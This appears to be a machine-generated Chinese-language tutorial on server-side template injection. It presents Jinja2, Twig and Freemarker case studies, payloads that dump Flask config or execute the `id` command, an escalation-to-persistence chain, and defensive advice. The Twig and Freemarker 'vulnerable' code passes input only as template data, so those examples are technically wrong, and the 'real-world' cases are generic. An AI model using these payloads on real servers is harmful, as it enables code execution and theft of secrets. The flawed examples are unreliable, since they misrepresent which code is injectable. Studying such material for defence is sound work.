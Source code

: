 # 模板注入(SSTI)利用链构造案例分析

## 引言

模板注入（Server-Side Template Injection, SSTI）是一种常见的安全漏洞，通常发生在Web应用程序中，当用户输入被直接嵌入到服务器端模板中时，攻击者可以通过构造恶意输入来执行任意代码或获取敏感信息。本文将分析真实世界中的模板注入利用链构造漏洞案例和攻击实例，重点关注Web安全方面。

## 模板注入的基本原理

模板注入通常发生在使用模板引擎（如Jinja2、Twig、Freemarker等）的Web应用程序中。模板引擎允许开发者将动态数据嵌入到静态HTML模板中。然而，如果用户输入未经适当处理就被嵌入到模板中，攻击者可以通过构造恶意输入来执行任意代码。

例如，考虑以下Jinja2模板：

```jinja2
<h1>Hello, {{ name }}!</h1>
```

如果`name`参数直接来自用户输入，且未经任何过滤或转义，攻击者可以构造如下输入：

```plaintext
{{ 7 * 7 }}
```

这将导致模板引擎计算`7 * 7`并输出`49`，从而暴露了模板注入漏洞。

## 真实案例分析

### 案例1：Jinja2模板注入

#### 背景

某Web应用程序使用Jinja2作为模板引擎，允许用户通过URL参数传递数据并动态生成页面。应用程序的代码如下：

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet')
def greet():
    name = request.args.get('name', 'Guest')
    template = f"<h1>Hello, {name}!</h1>"
    return render_template_string(template)

if __name__ == '__main__':
    app.run()
```

#### 漏洞分析

在上述代码中，`name`参数直接来自用户输入，并且未经任何过滤或转义就被嵌入到模板中。攻击者可以通过构造恶意输入来执行任意代码。

#### 攻击实例

攻击者可以构造如下URL：

```plaintext
http://example.com/greet?name={{config.items()}}
```

这将导致模板引擎输出应用程序的配置信息，包括敏感数据如数据库连接字符串、API密钥等。

### 案例2：Twig模板注入

#### 背景

某PHP Web应用程序使用Twig作为模板引擎，允许用户通过POST请求传递数据并动态生成页面。应用程序的代码如下：

```php
require_once 'vendor/autoload.php';

$loader = new Twig_Loader_Array([
    'index' => 'Hello, {{ name }}!',
]);

$twig = new Twig_Environment($loader);

$name = $_POST['name'];
echo $twig->render('index', ['name' => $name]);
```

#### 漏洞分析

在上述代码中，`name`参数直接来自用户输入，并且未经任何过滤或转义就被嵌入到模板中。攻击者可以通过构造恶意输入来执行任意代码。

#### 攻击实例

攻击者可以构造如下POST请求：

```plaintext
POST /greet HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

name={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

这将导致模板引擎执行`id`命令并输出当前用户的UID和GID。

### 案例3：Freemarker模板注入

#### 背景

某Java Web应用程序使用Freemarker作为模板引擎，允许用户通过URL参数传递数据并动态生成页面。应用程序的代码如下：

```java
import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;

import java.io.IOException;
import java.io.StringWriter;
import java.util.HashMap;
import java.util.Map;

public class GreetServlet extends HttpServlet {
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String name = request.getParameter("name");
        Configuration cfg = new Configuration(Configuration.VERSION_2_3_30);
        cfg.setClassForTemplateLoading(GreetServlet.class, "/");
        Template template = cfg.getTemplate("greet.ftl");

        Map<String, Object> data = new HashMap<>();
        data.put("name", name);

        StringWriter out = new StringWriter();
        try {
            template.process(data, out);
        } catch (TemplateException e) {
            e.printStackTrace();
        }

        response.getWriter().write(out.toString());
    }
}
```

#### 漏洞分析

在上述代码中，`name`参数直接来自用户输入，并且未经任何过滤或转义就被嵌入到模板中。攻击者可以通过构造恶意输入来执行任意代码。

#### 攻击实例

攻击者可以构造如下URL：

```plaintext
http://example.com/greet?name=<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

这将导致模板引擎执行`id`命令并输出当前用户的UID和GID。

## 利用链构造

在模板注入攻击中，攻击者通常需要构造一个利用链来逐步获取更高的权限或更敏感的信息。以下是一个典型的利用链构造过程：

1. **信息泄露**：首先，攻击者通过模板注入获取应用程序的配置信息或环境变量，如数据库连接字符串、API密钥等。

2. **代码执行**：利用获取的信息，攻击者尝试执行任意代码，如通过`eval`或`exec`函数执行系统命令。

3. **权限提升**：通过执行系统命令，攻击者尝试提升权限，如通过`sudo`或`su`命令切换到更高权限的用户。

4. **持久化**：最后，攻击者尝试在系统中植入后门或持久化机制，如创建定时任务或修改系统配置文件。

## 防御措施

为了防止模板注入漏洞，开发者应采取以下措施：

1. **输入验证**：对所有用户输入进行严格的验证和过滤，确保输入符合预期的格式和范围。

2. **输出转义**：在将用户输入嵌入到模板中之前，对其进行适当的转义，以防止恶意代码的执行。

3. **最小权限原则**：确保应用程序以最小权限运行，限制其访问敏感资源的能力。

4. **安全配置**：配置模板引擎以禁用危险功能，如禁用`eval`或`exec`函数。

5. **安全审计**：定期进行安全审计和代码审查，及时发现和修复潜在的安全漏洞。

## 结论

模板注入（SSTI）是一种严重的安全漏洞，可能导致任意代码执行和信息泄露。通过分析真实世界中的案例，我们可以更好地理解模板注入的利用链构造过程，并采取有效的防御措施来保护Web应用程序的安全。开发者应始终遵循安全最佳实践，确保应用程序的安全性和可靠性。

---

*文档生成时间: 2025-03-11 17:42:42*






















